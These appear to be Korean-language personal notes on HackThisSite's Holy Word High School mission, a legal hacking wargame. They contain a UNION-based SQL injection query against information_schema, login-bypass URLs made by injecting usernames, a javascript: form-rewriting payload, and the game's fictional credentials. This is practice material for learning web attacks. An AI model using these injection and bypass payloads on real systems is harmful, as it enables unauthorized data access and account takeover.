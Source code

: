 - 주의! "" 안에 '로 묶어주거나 ''없이 써줘야 한다.

## Level 10: Holy Word High School
### 문제 요약

#### 학점바꾸기
- ID: Zach Sanchez
- password: liberty638
- Student Access System 로그인창 sql injection x, but get방식
- `student.php?uusername=Zach Sanchez&ppassword=liberty638&action=viewgrades&course=Mathematics`
- bible study 2학기 fail, gym 2학기 fail

#### staff정보
- Mr. Jonathan Goodman Bible Study jgoodman@holycross.edu
- Mrs. Ann Feldman P.E.Health afeldman@holycross.edu

```
http://192.168.0.65/blind.php?id=1 union SELECT id,title,news from Anews union all select COLUMN_NAME,COLUMN_NAME,COLUMN_NAME from information_schema.COLUMNS
```
```
http://www.hackthissite.org/missions/realistic/10/student.php?uusername=Zach Sanchez;&ppassword=
```
```
http://www.hackthissite.org/missions/realistic/10/student.php?uusername=Jonathan Goodman;&ppassword=
```

```html
javascript:document.write("
<form action=/missions/basic/4/level4.php method=post>
  <input type=hidden name=to value=sam2@hsite.abc />
	<input type=submit value=Send password to Sam />
</form>
</center><br /><br />
<center><b>Password:</b><br />

<form action=/missions/basic/4/index.php method= post>
  <input type=password name=password  /><br /><br />
	<input type=submit value=submit /></form>")
```

- id=1번, id/pw 동일함
```
http://www.hackthissite.org/missions/realistic/10/student.php?uusername=Jonathan Goodman;&ppassword=
```

- 관리자로그인창: http://www.hackthissite.org/missions/realistic/10/staff.php

smiller / smiller

Welcome, Mrs. Samantha Miller! Please remember that access to the staff administration area is restricted to the district-supplied 'holy_teacher' web browser.
- 웹브라우저가 holy_teacher웹브라우저인 경우에만 접속 가능
